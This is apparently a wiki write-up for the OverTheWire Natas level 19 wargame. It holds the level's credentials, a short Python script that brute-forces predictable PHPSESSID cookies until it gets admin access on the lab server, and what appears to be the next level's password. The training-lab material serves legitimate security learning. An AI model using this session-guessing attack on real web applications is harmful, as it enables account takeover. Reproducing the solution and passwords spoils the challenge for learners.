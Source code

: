 [Category:OverTheWire-Natas](/Category:OverTheWire-Natas "wikilink")
Username: natas19 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs URL:
<http://natas19.natas.labs.overthewire.org>

we bruteforce the sessionid because the only random chars where the
selected three.

`  `
`import requests`
`  `
`for i in range(1000):`
`    session = requests.Session()`
`    nums = list(format(i,'03'))`
`    session.cookies.set('PHPSESSID',"3{}3{}3{}2d61646d696e".format(nums[0],nums[1],nums[2]))`
`    response = session.get('http://natas19.natas.labs.overthewire.org', auth=('natas19','4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs'))`
`    if("You are an admin" in response.text):`
`        print(response.text)`
`        break`
`  `
`  `

eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF